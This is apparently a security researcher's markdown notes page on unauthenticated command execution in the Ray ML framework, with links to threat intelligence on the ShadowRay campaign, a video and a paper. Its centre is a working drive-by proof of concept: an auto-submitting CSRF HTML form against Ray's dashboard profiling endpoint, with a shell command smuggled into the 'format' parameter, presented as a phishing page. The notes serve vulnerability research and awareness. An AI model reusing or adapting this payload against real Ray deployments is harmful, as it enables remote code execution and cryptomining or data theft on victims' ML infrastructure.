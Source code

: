 ```yaml
---
aliases: 
tags:
  - MLops-attack
  - ART
last_tested: 08/2023
transferable:
---
```



## **PoC**
Ray is at its core a tool for arbitrary code execution! 
Command execution via API by anyone on the network
**Phishing URL to codex:** 

```
<html>
<body>
<form action="http://localhost:8265/worker/cpu_profile">
<input type="hidden" name="pid" value="66758" />
<input type="hidden" name="ip" value="192&#46;168&#46;1&#46;5" />
<input type="hidden" name="duration" value="5" />
<input type="hidden" name="native" value="0" />
<input type="hidden" name="format" value="&#96;&#59;&#96;touch&#32;&#47;tmp&#47;driveby&#96;" />
<input type="submit" value="Submit request" />
</form>
<script>
history.pushState('', '', '/');
document.forms[0].submit();
</script>
</body>
</html>

```
Source: twitter.com/danhmcinerney 
https://hackstery.com/2023/10/13/no-one-is-prefect-is-your-mlops-infrastructure-leaking-secrets/ 
## **Details**

Ray is a seriously powerful tool, enabling the creation and modification of models and datasets. 
Gaining access to Ray for an enterprise could be devastating. 
**Threat intel:** [details of a campaign of targetting ML workloads, but for (sigh)
running cryptominers. ](https://www.oligo.security/blog/shadowray-attack-ai-workloads-actively-exploited-in-the-wild) 


	
[Video](https://www.youtube.com/watch?v=e3ybnXjtpIc)
[Paper](https://arxiv.org/abs/2302.10149) 
### ATT&CK Matrix